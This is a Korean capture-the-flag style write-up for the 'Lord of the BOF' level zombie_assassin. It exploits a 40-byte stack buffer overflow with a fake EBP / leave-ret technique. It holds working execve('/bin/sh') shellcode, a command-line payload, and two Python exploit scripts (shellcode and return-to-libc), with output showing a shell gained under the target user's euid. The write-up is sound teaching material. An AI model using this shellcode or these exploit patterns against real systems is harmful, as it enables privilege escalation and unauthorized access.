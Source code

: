 ```yaml
---
title: "[LOB]Level16. zombie_assassin"
tags: [LOB, writeup, fake EBP]
author: eli_ez3r
key: 20180016
category: write-up
date: 2018-08-31 01:00:00 +0900
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[Fake EBP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis & Exploit

분기문을 통해서 '\xbf', '\x40' 으로 시작하는 주소들을 모두 필터링 된다.

```
[assassin@localhost assassin]$ cat /proc/751/maps
08048000-0817d000 r-xp 00000000 08:05 129443     /usr/bin/gdb
0817d000-08184000 rw-p 00134000 08:05 129443     /usr/bin/gdb
08184000-0850f000 rwxp 00000000 00:00 0
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40018000 rw-p 00000000 00:00 0
40018000-4004d000 r-xp 00000000 08:05 96962      /usr/lib/libncurses.so.4.0
4004d000-40056000 rw-p 00034000 08:05 96962      /usr/lib/libncurses.so.4.0
40056000-4005a000 rw-p 00000000 00:00 0
4005a000-40076000 r-xp 00000000 08:08 34156      /lib/libm-2.1.3.so
40076000-40077000 rw-p 0001b000 08:08 34156      /lib/libm-2.1.3.so
40077000-40164000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40164000-40168000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40168000-4016c000 rw-p 00000000 00:00 0
4016c000-40182000 r--p 00000000 08:05 32279      /usr/share/locale/en_US/LC_CTYPE
40182000-40290000 rw-p 00000000 00:00 0
bfffb000-c0000000 rwxp ffffc000 00:00 0
```

#### Shellcode를 이용한 공격

```
shellcode(24byte) :
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

payload 시나리오 :

```
./zombie_assassin `python -c print "&[buf+4]"+"shellcode(24byte)"+"\x90"*12+"&[buf-4]"+"&leave-ret 가젯"
```



&[buf-4] : 0xbffffc5c

&buf : 0xbffffc60

&[buf+4] : 0xbffffc64

&leave-ret : 0x080484df



> gdb 통해 얻은 buf의 주소와 실제 구동되는 buf의 주소가 0x10주소 만큼 차이가 나서 삽질을 많이 했다.
>
> => core 덤프를 통해서 알아낸 주소가 buffer 주소가 아닌 main함수 인자값 주소였다. 생각없이 'x/100x $esp' 로 흩어 보면서 찾았는데, x/100x $esp-100 으로 윗부분을 보니 buffer가 존재함;;
>
> => 소스코드를 복사하여 printf("%p", buffer); 를 추가하여 제대로된 주소를 구하는 방법도 있음.

> leave-ret 을 이용하여 fakeEBP기법을 사용하면 esp가 buf+4 로 이동하기 때문에 buf-4의 주소를 넣어주어야 실제 buf 주소가 실행된다.
>
> eip에는 shellcode가 있는 시작 주소가 들어가야 하기 때문에, buf시작 부분에 shellcode의 시작 주소를 넣어주었다.



##### Payload

```
./zombie_assassin `python -c 'print "\x64\xfc\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*12+"\x5c\xfc\xff\xbf"+"\xdf\x84\x04\x08"'`
```

```
릱릱?@?@廈@릱릱릱릱릱릱릱릱릱릱릱릱`?욀?   ☻
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```

------

##### python

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/assassin/zombie_assassin"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

buffer_addr = 0xbffffc60
shellcode_addr = buffer_addr + 4
fake_ebp = buffer_addr - 4
leave_ret = 0x080484df

payload = p32(shellcode_addr)
payload = append(shellcode)
payload = append("\x90"*(40-4-24))
payload = append(p32(fake_ebp))
payload = append(p32(leave_ret))

pid = os.fork()
if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

------

##### RTL

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/assassin/zombie_assassin"

buffer_addr = 0xbffffc40
fake_ebp = buffer_addr - 4

libc_addr = 0x40018000
binsh_offset = 0xe3ff9
binsh_addr = libc_addr + binsh_offset

system_addr = 0x40058ae0
leave_ret_gadjet = 0x80484df
exit_addr = 0x400391e0

payload = p32(system_addr)                      # buffer[40]
payload = append(p32(exit_addr))
payload = append(p32(binsh_addr))
payload = append("\x90"*(40-12))
payload = append(p32(fake_ebp))                 # sfp
payload = append(p32(leave_ret_gadjet))         # ret

pid = os.fork()
if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

